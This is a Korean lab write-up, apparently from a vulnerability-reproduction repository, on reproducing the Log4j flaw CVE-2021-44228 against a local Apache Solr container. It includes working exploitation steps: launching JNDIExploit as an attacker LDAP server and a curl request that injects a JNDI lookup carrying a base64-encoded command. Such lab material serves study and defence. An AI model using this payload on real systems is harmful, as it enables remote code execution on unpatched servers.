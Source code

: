 # CVE-2021-44228

**Contributors**

-   [강성원(@rivercastleone)](https://github.com/rivercastleone)

<br/>

### 요약

-   Log4j는 다양한 pattern을 지원, 그 중 JNDI Lookup pattern을 공격자가 삽입하게 되면 Log4j가 JNDI를 통해 LDAP 서버에 접속하여 객체를 참조하게 됨
  ![](exploit.png)
-  공격자는 이 기능을 이용해서 공격자의 서버로 악성 자바 객체를 다운받게 하여 이 코드를 이용해서 서버를 탈취
-  서버에서 다음과 같이 사용자의 User-Agent 정보를 남긴다고 하면 공격자는 User-Agent 정보에 JNDI를 사용하여 LDAP 과 같은 디렉터리 서비스로부터 악성 JAVA 클래스를 가리키는 URI를 반환

<br/>

### 환경 구성 및 실행

-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.
-   서버가 시작 된 후 `http://your-ip:8983/` Apache의 관리 포털을 찾아봄
![](web.png)
-   로그에서 발견한 엔드포인트로 이동하고 로그에서 params 필드가 있음도 확인
![](log.png) 
-   `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-ip -p 8888`를 호출하여 공격자 LDAP 서버 및 HTTP 서버 구축
-   `echo -n 'base_encoding_command' | base64` 를 호출하여 실행 시킬 명령어를 인코딩한다 ex) ` echo -n 'touch /tmp/success' | base64`
-  `curl 'http://your-ip:8983/solr/admin/cores?asdf=$\{jndi:ldap://your-ip:1389/Basic/Command/Base64/'base_encoding_command'}'`  를 호출하여 공격자는 JNDI 조회를 통해 악성 서버에 연결하게 됨
![](attack.png)

<br/>

### 결과

![](result.png)

<br/>

### 정리

-   이 취약점은 로그 이벤트 데이터를 삽입하거나 악의적인 코드를 실행할 수 있는 취약점으로, 악용될 경우 시스템의 안정성과 보안에 심각한 위협을 초래할 수 있음. 안전한 운영을 위해 주기적으로 Log4j 라이브러리를 최신 버전으로 업데이트를 하여 취약점을 보완하는 것이 중요함
